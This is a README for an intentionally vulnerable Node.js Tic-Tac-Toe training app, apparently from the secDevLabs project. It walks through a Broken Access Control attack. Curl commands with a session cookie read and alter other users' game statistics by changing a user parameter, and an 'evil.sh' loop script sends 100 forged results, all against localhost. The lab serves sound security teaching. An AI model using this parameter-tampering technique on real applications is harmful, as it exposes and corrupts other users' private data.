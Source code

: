 # Tic-Tac-Toe

[Acessar conteúdo em Português](README_PT_BR.md)

<p align="center"><img  src="images/a5-banner.png"/></p>

Tic-Tac-Toe is a simple Nodejs web application that contains an example of a Broken Access Control vulnerability and its main goal is to describe how a malicious user could exploit it.

## Index

- [Definition](#what-is-broken-access-control)
- [Setup](#setup)
- [Attack narrative](#attack-narrative)
- [Objectives](#secure-this-app)
- [Solutions](#pr-solutions)
- [Contributing](#contributing)

## What is Broken Access Control?

Restrictions on what authenticated users are allowed to do are often not properly enforced. Attackers can exploit these flaws to access unauthorized functionality and/or data, such as access to other users' accounts, view sensitive files, modify other users’ data, change access rights, etc.

The main goal of this app is to discuss how **Broken Access Control** vulnerabilities can be exploited and to encourage developers to send secDevLabs Pull Requests on how they would mitigate these flaws.

## Setup

To start this intentionally **insecure application**, you will need [Docker][docker install] and [Docker Compose][docker compose install]. After forking [secDevLabs](https://github.com/globocom/secDevLabs), you must type the following commands to start:

```sh

cd secDevLabs/owasp-top10-2021-apps/a1/tictactoe

```

```sh

make install

```

Then simply visit [http://localhost.:10005][app] ! 😆

## Get to know the app 🕹

To properly understand how this application works, you can follow this step:

- Try registering a user
- Sign in
- Play the game
- See your statistics

## Attack narrative

Now that you know the purpose of this app, what could go wrong? The following section describes how an attacker could identify and eventually find sensitive information about the app or its users. We encourage you to follow these steps and try to reproduce them on your own to better understand the attack vector! 😜

#### Lack of user cookie validation allows for an attacker to get other users' game statistics

### 👀

In order to better understand how the application handles its data, two users, `user1` and `user2`, can be created using the web interface by visiting [http://locahost.:10005/create](http://localhost:.10005/create) as exemplified below:

<p  align="center"><img  src="images/attack0.png"/></p>

After logging in as `user1` and playing a few times, his/her statistics can be checked by visiting [http://localhost.:10005/statistics](http://localhost.:10005/statistics), as the following picture shows:

<p  align="center"><img  src="images/attack1.png"/></p>

To check how this information is being retrieved form the server, an attacker could use Developer Tools from Firefox using `Ctrl + Shift + E` or `Command + Option + E` on a Mac, as showed bellow:

<p  align="center"><img  src="images/attack3.png"/></p>

You can replicate this GET by using the following curl command (use your own `tictacsession` token):

```sh
curl -s 'GET' -b 'tictacsession=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6InVzZXIxIiwiaWF0IjoxNTYzNDcyODg2LCJleHAiOjE1NjM0NzY0ODZ9.ESLVZ9bbfUbUdFBFRCzxGTPICuaEWdGLxrvWykEmhNk' 'http://localhost.:10005/statistics/data?user=user1'
```

```json
{
  "chartData": [
    { "y": 46.15384615384615, "label": "Wins" },
    { "y": 15.384615384615385, "label": "Ties" },
    { "y": 38.46153846153846, "label": "Loses" }
  ],
  "numbers": { "games": 13, "wins": 6, "ties": 2, "loses": 5 }
}
```

### 🔥

As this AJAX request is being made passing the username as a URL parameter, it may indicate that only this parameter is being used to verify the permission to get the data. To check this, using the same `tictacsession`, an attacker could replace `user1` to another known user, as `user2` for example:

```sh
curl -s 'GET' -b 'tictacsession=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6InVzZXIxIiwiaWF0IjoxNTYzNDcyODg2LCJleHAiOjE1NjM0NzY0ODZ9.ESLVZ9bbfUbUdFBFRCzxGTPICuaEWdGLxrvWykEmhNk' 'http://localhost.:10005/statistics/data?user=user2'
```

```json
{
  "chartData": [
    { "y": 100, "label": "Wins" },
    { "y": 0, "label": "Ties" },
    { "y": 0, "label": "Loses" }
  ],
  "numbers": { "games": 1, "wins": 1, "ties": 0, "loses": 0 }
}
```

This fact represents a `Broken Access Control` vulnerability, allowing an attacker to see every known user's private statistics.

#### Lack of user cookie validation allows for an attacker to manipulate user statistics

### 👀

Using the same methodology, an attacker could now check what the application does when a game finishes and tries to store the result. Analyzing the browser inspector once again reveals that a POST was made to the `/game` route, as can be seen in the next image:

<p  align="center"><img  src="images/attack4.png"/></p>

This request is done by using two parameters, `user` and `result`, as shown bellow:

<p  align="center"><img  src="images/attack5.png"/></p>

To replicate this POST by using the curl command (use your own `tictacsession` token), you can type the following command:

```sh
curl -s 'POST' -b 'tictacsession=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6InVzZXIxIiwiaWF0IjoxNTYzNDc5MzIxLCJleHAiOjE1NjM0ODI5MjF9.SRVz09ZebGa875MilaV2bj4tjAdTWA14JTuArnUDOZM' 'http://localhost.:10005/game' --data-binary 'user=user1&result=win'
```

```json
OK
```

### 🔥

An attacker now could check if, by using another username into this request, he/she could modify other user's statistics. To do so, the parameter `user` is changed into another known user, as `user2` for example:

```sh
curl -s 'POST' -b 'tictacsession=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6InVzZXIxIiwiaWF0IjoxNTYzNDc5MzIxLCJleHAiOjE1NjM0ODI5MjF9.SRVz09ZebGa875MilaV2bj4tjAdTWA14JTuArnUDOZM' 'http://localhost.:10005/game' --data-binary 'user=user2&result=win'
```

```json
OK
```

Imagining the worst scenario, an attacker could create a malicious script to send this same request as many times as he/she could, as can be exemplified bellow:

```sh
vi evil.sh
```

```sh
#!/bin/sh
#
# evil.sh - Add 100 losses to an user!

user="user2"
num=100
result="lose"
tictacsession="eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6InVzZXIxIiwiaWF0IjoxNTYzNDc5MzIxLCJleHAiOjE1NjM0ODI5MjF9.SRVz09ZebGa875MilaV2bj4tjAdTWA14JTuArnUDOZM"

for i in `seq 1 $num`; do
    curl -s 'POST' -b "tictacsession=$tictacsession" 'http://localhost.:10005/game' --data-binary "user=$user&result=$result"
done
```

And run it:

```sh
chmod +x evil.sh && ./evil.sh
```

```sh
OKOKOKOKOKOKOKOKOKOKOKOKOKOKOKOKOKOKOKOKOKOKOKOKOKOKOKOKOKOKOKOKOKOKOKOKOKOKOKOKOKOKOKOKOKOKOKOKOKOKOKOKOKOKOKOKOKOKOKOKOKOKOKOKOKOKOKOKOKOKOKOKOKOKOKOKOKOKOKOKOKOKOKOKOKOKOKOKOKOKOKOKOKOKOKOKOKOKOKOK
```

To check if this attack indeed worked, the malicious user could exploit the previous vulnerability to check `user2` statistics using the following command:

```sh
curl -s 'GET' -b 'tictacsession=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6InVzZXIxIiwiaWF0IjoxNTYzNDc5MzIxLCJleHAiOjE1NjM0ODI5MjF9.SRVz09ZebGa875MilaV2bj4tjAdTWA14JTuArnUDOZM' 'http://localhost.:10005/statistics/data?user=user2'
```

```json
{
  "chartData": [
    { "y": 3.6363636363636362, "label": "Wins" },
    { "y": 2.727272727272727, "label": "Ties" },
    { "y": 93.63636363636364, "label": "Loses" }
  ],
  "numbers": { "games": 110, "wins": 4, "ties": 3, "loses": 103 }
}
```

Once again, this fact represents a `Broken Access Control` vulnerability, allowing an attacker to modify every known user's private statistics.

## Secure this app

How would you mitigate this vulnerability? After your changes, an attacker should not be able to:

- Access other users' private statistics.
- Modify other users' private statistics.

## PR solutions

[Spoiler alert 🚨 ] To understand how this vulnerability can be mitigated, check out [these pull requests](https://github.com/globocom/secDevLabs/pulls?utf8=%E2%9C%93&q=is%3Apr+label%3A%22mitigation+solution+%F0%9F%94%92%22+label%3A%22Tic-Tac-Toe%22+)!

## Contributing

We encourage you to contribute to SecDevLabs! Please check out the [Contributing to SecDevLabs](../../../docs/CONTRIBUTING.md) section for guidelines on how to proceed! 🎉

[docker install]: https://docs.docker.com/install/
[docker compose install]: https://docs.docker.com/compose/install/
[app]: http://localhost.:10005
[secdevlabs]: https://github.com/globocom/secDevLabs
[2]: https://github.com/globocom/secDevLabs/tree/master/owasp-top10-2021-apps/a1/tictactoe
